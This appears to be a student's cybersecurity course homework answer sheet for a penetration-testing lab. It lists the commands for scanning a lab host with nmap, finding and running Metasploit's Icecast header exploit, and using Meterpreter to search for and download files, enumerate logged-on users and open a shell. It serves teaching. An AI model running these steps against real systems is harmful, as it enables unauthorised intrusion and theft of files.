 **Brian C Williams 
17-Penetration II Homework**


You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

Run the Nmap command that performs a service and version scan against the target.

	Answer: nmap -sV 192.168.0.20

	[Image of  ql](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)


From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast windows

[image of q2]()


Now that we know which exploits are available to us, let's start Metasploit:



Run the command that starts Metasploit:

Answer: msfconsole -u
		msfconsole 

Search for the Icecast module and load it for use.

image

Run the command to search for the Icecast module:

Answer: search icecast

image

Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use exploit/windows/http/icecast_header
		use 0




Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: set RHOST 192.168.0.20





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run or exploit



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f  *secretfile.txt


You should now have a Meterpreter session open.


Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt



Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt



You can also use Meterpreter's local exploit suggester to find possible exploits.

run post/multi/recon/local_exploit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users

		
		

B. Open a Meterpreter shell and gather system information for the target.

Answer: shell 
		systeminfo
		
		

C. Run the command that displays the target's computer system information:

Answer: sysinfo

